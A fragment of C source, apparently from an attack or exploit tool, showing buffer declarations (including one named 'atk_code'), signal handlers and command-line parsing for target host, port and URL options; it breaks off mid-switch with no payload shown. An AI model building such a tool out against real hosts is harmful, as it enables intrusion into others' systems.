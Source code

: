  u_char *gg_ptr=NULL;
 u_char *t_ptr=NULL;
 u_char __zr_bf[(MAX_BUF)];
 u_char *port_ptr=NULL;

 char pkt[(FIR_BUF)];
 char host[(SEC_BUF)];
 char url[(SEC_BUF)];
 char test_bf[(MAX_BUF)];
 char req_t_bf[(THR_BUF)];
 char ip[(MIN_BUF)];
 char atk_code[(MIN_BUF)];

 signal(SIGINT,sf_exit);
 signal(SIGTSTP,sf_exit);

 while((whgl=getopt(argc,argv,"S:s:T:t:Q:q:P:p:H:h:U:u:"))!=EOF)
 {
  extern char *optarg;
  switch(whgl)
  {
   case 'S':
   case 's':
    tnum=atoi(optarg);
    if(SEARCH_NUM<tnum)
    {
     fprintf(stderr,"target error\n");
     exit(-1);
    }
    break;

   case 'T':
   case 't':
    tgrl_sl=atoi(optarg);
    if(TARGET_NUM<tgrl_sl)
    {
     fprintf(stderr,"target error\n");
     exit(-1);
    }
    break;

   case 'Q':
   case 'q':
    qnum=atoi(optarg);
    break;
    
   case 'P':
   case 'p':
    def_port=atoi(optarg);
    break;
    
   case 'H':
   case 'h':
    memset((char *)host,0,sizeof(host));
    strncpy(host,optarg,sizeof(host)-1);
    host_chk++;
    break;
    
